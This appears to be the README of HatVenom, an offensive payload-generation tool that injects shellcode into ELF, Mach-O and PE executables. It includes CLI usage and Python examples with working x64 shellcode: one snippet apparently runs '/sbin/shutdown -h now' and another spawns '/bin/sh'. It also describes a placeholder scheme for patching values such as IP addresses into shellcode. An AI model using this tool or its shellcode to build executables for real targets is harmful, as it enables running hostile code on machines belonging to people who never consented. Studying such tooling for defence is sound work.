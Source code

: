 # HatVenom

Powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## How it works

* **1.** First we are preparing provided shellcode for injection, we are setting offsets and formatting opcodes.
* **2.** Next we are generating executable, we taking default format header and magic to create simple template.

**NOTICE:** *For `Mach-O` we are using already prepared templates in the `templates/` folder* We are doing this because of difficult structure of Mach-O executables.

* **3.** Then we are injecting prepared shellcode to generated template.

## CLI examples

```bash
python3 hatvenom.py --format elf --arch x64 --shellcode '\x00'

# With replacing offsets

python3 hatvenom.py --format elf --arch x64 --shellcode '\x00:string:\x00' --offsets string=alena
```

## Python example

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Replacing offsets

HatVenom allows you to replace offsets in your shellcode, that means that you can create executable files with injected value.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'string':'//bin/sh'})
```

Offsets must be this type `:offset:` or if you want to specify offset type - `:offset:ipv4:`.
